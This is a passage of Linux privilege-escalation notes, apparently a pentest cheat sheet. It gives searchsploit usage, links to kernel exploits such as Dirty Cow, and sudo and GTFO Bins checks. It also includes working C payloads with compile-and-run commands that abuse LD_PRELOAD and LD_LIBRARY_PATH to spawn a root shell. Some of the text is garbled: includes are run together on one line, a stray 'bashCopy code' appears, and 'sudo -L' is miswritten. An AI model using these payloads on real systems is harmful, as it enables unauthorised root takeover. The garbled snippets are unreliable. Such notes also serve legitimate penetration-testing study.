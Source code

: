 - Use **`searchsploit`**:
    
    ```bash
    searchsploit "name with version"
    ```
    
- Example Exploits:
    - [Dirty Cow](https://raw.githubusercontent.com/firefart/dirtycow/master/dirty.c)
    - [Overlayfs](https://www.exploit-db.com/exploits/37292)
    - [Linux Kernel < 4.4.0-116](https://www.exploit-db.com/exploits/44298)

### **SUDO -L and GTFO Bins**

- Check sudo permissions: **`sudo -L`**
- Utilize GTFO Bins.
- Look for environment variables, e.g., **`LD_PRELOAD`** or **`LD_LIBRARY_PATH`**.

### **Exploiting LD_PRELOAD**

- Create **`env.c`**:
    
    ```c
    #include <stdio.h>#include <sys/types.h>#include <stdlib.h>void _init() {
        unsetenv("LD_PRELOAD");
        setresuid(0,0,0);
        system("/bin/bash -p");
    }
    ```
    
- Compile and execute:
    
    ```bash
    gcc -fPIC -shared -o /tmp/env env.c -nostartfiles
    sudo LD_PRELOAD=/tmp/env program-name-here
    ```
    

### **Exploiting LD_LIBRARY_PATH**

- Create **`library_path.c`**:
    
    ```c
    #include <stdio.h>
    #include <stdlib.h>
    static void hijack() __attribute__((constructor));
    void hijack() {
        unsetenv("LD_LIBRARY_PATH");
        setresuid(0,0,0);
        system("/bin/bash -p");
    }
    ```
    
- Compile and execute:
    
    ```bash
    bashCopy code
    gcc -o /tmp/lib.so -shared -fPIC library_path.c
    sudo LD_LIBRARY_PATH=/tmp binaryname
    